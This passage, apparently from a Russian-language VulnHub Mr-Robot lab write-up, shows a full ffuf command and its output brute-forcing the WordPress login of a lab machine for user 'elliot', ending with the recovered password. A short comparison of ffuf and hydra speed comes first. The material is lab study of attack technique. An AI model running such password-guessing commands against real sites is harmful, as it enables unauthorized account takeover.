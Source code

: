 ### Вывод по бенчмарку
`ffuf` на 30% быстрее, чем `hydra` для этой задачи, но не поддерживает возобновление после сбоя/прерывания

Фаззинг пароля
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits]
└─$ ffuf -request ./post.txt -t 40 -request-proto http -w ./fsocity_filtered.txt -ic -c -fc 200 

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : POST
 :: URL              : http://192.168.56.129/wp-login.php
 :: Wordlist         : FUZZ: /home/kali/Labs/VulnHub/Lin Intermediate - Mr-Robot_1/exploits/fsocity_filtered.txt
 :: Header           : Priority: u=0, i
 :: Header           : Host: 192.168.56.129
 :: Header           : User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:140.0) Gecko/20100101 Firefox/140.0
 :: Header           : Connection: keep-alive
 :: Header           : Referer: http://192.168.56.129/wp-login.php
 :: Header           : Cookie: s_cc=true; s_fid=79C0FCABB9686E81-21543240C5D7C7BB; s_nr=1753192766411; s_sq=%5B%5BB%5D%5D; wordpress_test_cookie=WP+Cookie+check
 :: Header           : Upgrade-Insecure-Requests: 1
 :: Header           : Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
 :: Header           : Accept-Language: en-US,en;q=0.5
 :: Header           : Accept-Encoding: gzip, deflate, br
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Header           : Origin: http://192.168.56.129
 :: Data             : log=elliot&pwd=FUZZ&wp-submit=Log+In&redirect_to=http%3A%2F%2F192.168.56.129%2Fwp-admin%2F&testcookie=1
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 200
________________________________________________

ER28-0652               [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 1680ms]
:: Progress: [11451/11451] :: Job [1/1] :: 58 req/sec :: Duration: [0:10:57] :: Errors: 13 ::
```

Креды `elliot:ER28-0652`
